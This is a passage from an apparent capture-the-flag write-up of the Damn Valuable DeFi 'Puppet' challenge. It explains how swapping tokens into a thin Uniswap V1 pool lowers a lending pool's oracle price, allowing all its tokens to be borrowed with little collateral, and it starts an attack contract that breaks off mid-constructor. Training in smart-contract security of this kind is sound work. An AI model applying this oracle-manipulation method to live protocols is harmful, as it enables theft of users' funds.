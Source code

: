 </details>


---





###  Puppet

#### Task: 

There’s a lending pool where users can borrow Damn Valuable Tokens (DVTs). To do so, they first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There’s a DVT market opened in an old Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Pass the challenge by saving all tokens from the lending pool, then depositing them into the designated recovery account. You start with 25 ETH and 1000 DVTs in balance.

#### Solution Explanation:

Here we can manipulate the price of DVT on Uniswap V1 by swapping tokens for ETH. This lowers the price of DVT in the pool’s oracle, making it possible to borrow more tokens with a smaller amount of ETH collateral.

The function _computeOraclePrice determines the price of DVT relative to ETH based on the reserves in the Uniswap V1 pair: 

``` solidity
    function _computeOraclePrice() private view returns (uint256) {
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
```

To reduce the price in the oracle, you need to increase the token reserves in the Uniswap pair and reduce the ETH reserves. This makes the price of DVT appear lower to the lending pool’s oracle, allowing you to borrow a large amount of tokens for a smaller ETH deposit.

To aime this we can swap our DVTs on ETH using Uniswap V1, increasing the token reserves and reducing the ETH reserves. This manipulation lowers the DVT price in the pool’s oracle.

With the manipulated low price, we borrow all 100,000 DVT from the lending pool using the minimal amount of ETH as collateral.


<details>
  <summary> Code </summary>

  ```solidity
contract Attack{

    DamnValuableToken immutable token;
    PuppetPool immutable pool;
    IUniswapV1Exchange immutable uniswap;
    address immutable recovery;

    uint256 constant UNISWAP_INITIAL_TOKEN_RESERVE = 10e18;
    uint256 constant UNISWAP_INITIAL_ETH_RESERVE = 10e18;
    uint256 constant PLAYER_INITIAL_TOKEN_BALANCE = 1000e18;
    uint256 constant PLAYER_INITIAL_ETH_BALANCE = 25e18;
    uint256 constant POOL_INITIAL_TOKEN_BALANCE = 100_000e18;


    constructor(address _token, address _pool, address _uniswap, address _recovery) payable{
        token = DamnValuableToken(_token);
        uniswap = IUniswapV1Exchange(_uniswap);
        pool = PuppetPool(_pool);
        recovery = _recovery;
  ```